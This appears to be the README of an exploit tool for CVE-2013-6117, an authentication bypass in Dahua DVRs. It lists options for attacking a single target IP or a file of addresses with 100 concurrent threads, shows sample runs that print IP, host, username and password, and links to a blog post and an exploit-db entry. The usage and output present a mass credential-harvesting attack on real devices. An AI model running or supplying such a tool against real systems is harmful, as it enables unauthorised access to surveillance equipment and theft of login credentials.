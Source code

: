 **CVE-2013-6117**
   
```
$ ./CVE-2013-6117 -h
Options:

  -h, --help       display help information
  -f, --filename   File containing list of IP addresses
  -t, --target     Target IP
  -n, --threads    No of concurrent threads (default: 100)
```
   
```
$ ./CVE-2013-6117 -f hostfile.txt 
1.2.4.4|name.no-ip.org:80|username|password
```
  
```
$ ./CVE-2013-6117 -t 1.2.3.4
1.2.4.4|name.no-ip.org:80|username|password
```
  
Reference:  
https://depthsecurity.com/blog/dahua-dvr-authentication-bypass-cve-2013-6117  
https://www.exploit-db.com/exploits/29673/  
